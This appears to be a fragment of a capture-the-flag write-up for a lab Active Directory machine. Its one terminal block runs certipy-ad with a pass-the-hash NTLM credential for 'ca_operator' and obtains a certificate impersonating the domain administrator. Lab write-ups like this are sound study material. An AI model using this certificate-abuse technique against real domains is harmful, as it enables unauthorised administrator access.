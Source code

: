 ![](Assets/Pasted%20image%2020250707131832.png)
![](Assets/Pasted%20image%2020250707133334.png)
![](Assets/Pasted%20image%2020250707133740.png)
```bash
┌──(root㉿n0m4d)-[/host_data]
└─# faketime "$(ntpdate -q DC01.certified.htb | cut -d ' ' -f 1,2)" certipy-ad req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@certified.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```
